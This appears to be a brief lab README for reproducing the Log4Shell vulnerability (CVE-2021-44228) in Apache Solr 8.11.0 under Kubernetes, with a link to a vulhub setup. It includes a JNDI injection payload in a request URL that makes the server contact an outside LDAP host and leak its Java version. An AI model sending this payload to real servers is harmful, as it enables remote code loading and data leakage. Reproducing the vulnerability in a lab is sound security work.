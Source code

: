 # CVE-2021-44228

Apache Solr 8.11.0, which use Log4j 2.14.1:

```
kubectl port-forward -n solr-log4j-cve-2021-44228 svc/solr 8983
```

After server start, browse http://localhost:8983 to see the admin portal of Apache Solr.


http:://localhost:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com}

https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/docker-compose.yml
